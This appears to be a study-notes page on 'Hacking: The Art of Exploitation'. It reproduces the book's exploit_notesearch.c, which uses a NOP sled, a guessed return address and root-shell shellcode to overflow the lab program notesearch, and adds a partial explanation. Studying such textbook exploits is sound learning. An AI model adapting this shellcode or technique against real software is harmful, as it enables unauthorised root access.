 # x86

&#x20; _**hacking: the art of exploitation**_

{% code title="exploit_notesearch.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[]=
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
 unsigned int i, *ptr, ret, offset=270;
 char *command, *buffer;
 
 command = (char *) malloc(200);
 
 bzero(command, 200); // Zero out the new memory.
 
 strcpy(command, "./notesearch \'"); // Start command buffer.
 buffer = command + strlen(command); // Set buffer at the end.
 
 if(argc > 1) // Set offset.
  offset = atoi(argv[1]);
  
 ret = (unsigned int) &i - offset; // Set return address.
 
 for(i=0; i < 160; i+=4) // Fill buffer with return address.
 *((unsigned int *)(buffer+i)) = ret;
 
 memset(buffer, 0x90, 60); // Build NOP sled.
 memcpy(buffer+60, shellcode, sizeof(shellcode)-1);
 
 strcat(command, "\'");
 system(command); // Run exploit.
 free(command);
}
```
{% endcode %}

The exploit above displays a simple buffer overflow exploit for the x86 architecture.

> This exploit will only work with architecture that have a stack growing downwards (to lower memory addresses).

#### Explanation

1. ...
2. `ret = (unsigned int) &i - offset; // Set return address.`

Set the return address by subtracting a guessed offset value from the current stack location. This calculates a possible lower memory location that may land in the NOP sled when the `notesearch` program is executed. Keep in mind that a subtraction is used instead due to the stack growing downwards.

